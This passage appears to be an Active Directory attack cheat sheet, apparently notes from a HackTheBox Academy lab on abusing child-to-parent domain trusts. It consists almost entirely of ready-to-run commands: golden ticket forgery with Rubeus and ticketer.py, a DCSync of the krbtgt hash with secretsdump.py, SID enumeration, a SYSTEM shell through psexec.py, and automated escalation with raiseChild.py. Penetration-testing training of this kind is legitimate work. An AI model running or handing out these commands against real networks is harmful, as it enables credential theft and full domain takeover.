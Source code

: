 **Rubeus**

Creating a Golden Ticket using Rubeus

```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

## Attacking Domain Trusts - Child -> Parent Trusts - from Linux

Performing DCSync with secretsdump.py

```shell
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

Performing SID Brute Forcing using lookupsid.py (Impacket)

```shell
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

Grabbing the Domain SID & Attaching to Enterprise Admin's RID

```shell
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

Constructing a Golden Ticket using ticketer.py

```shell
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

Setting the KRB5CCNAME Environment Variable

```shell
export KRB5CCNAME=hacker.ccache
```

Getting a SYSTEM shell using Impacket's psexec.py

```shell
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

AUTOMATION: Performing the Attack with raiseChild.py

```shell
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

## Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows
